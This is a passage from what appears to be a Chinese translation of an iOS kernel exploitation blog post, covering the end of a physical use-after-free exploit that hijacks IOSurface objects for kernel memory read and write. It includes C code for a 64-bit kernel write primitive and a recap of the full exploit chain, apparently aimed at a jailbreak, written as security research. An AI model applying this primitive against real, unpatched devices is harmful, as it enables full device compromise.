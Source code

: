 ```
```  
  
  
对于写入，我们覆盖索引时间戳指针，然后调用方法来设置索引时间戳。  
  
```
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
    uint64_t args[3] = {surfaceID, 0, value};
    IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
    uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
    iosurface_set_indexed_timestamp_pointer(info.object, addr);
    set_indexed_timestamp(info.client, info.surface, value);
    iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```  
  
  
这样，我们就有了（相当）稳定的内核内存读写原语，内核漏洞利用就完成了！32 位读取可以发展为任意大小的读取（通过多次读取或将 32 位值转换为位数较少的值），64 位写入也是如此（通过读取 64 位值，更改 X 位，然后写回该值）。  
  
简单回顾一下，整个漏洞利用流程如下：  
- 触发物理使用后释放以获取任意数量的释放页面  
  
- 在内核内存中分配大量包含魔法值的 IOSurface 对象  
  
- 等待 IOSurface 对象到达你可以写入的空闲页面之一  
  
- 滥用物理的释放后使用来更改 IOSurface 对象中的指针，从而允许你调用使用这些指针执行任意读写的 IOSurface 方法  
  
**结论**  
  
在这篇博文中，我展示了即使在较新的 iOS 版本中，物理使用后释放也是相当容易利用的内核漏洞。IOSurface 技术一直工作到 iOS 16，其中某些可用于内核读写的字段针对 arm64e 设备进行了 PAC，此外还有其他底层更改也破坏了 arm64 设备上的写入原语。  
  
提醒一下，此漏洞的源代码可在此处获得。将来，我将发布另一篇博客文章，详细介绍使用此漏洞的开源 iOS 14 越狱 Apex 的开发过程。现在，我希望你喜欢这篇文章，但如果你有任何疑问或顾虑，请随时给我发电子邮件alfie@alfiecg.uk 。  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
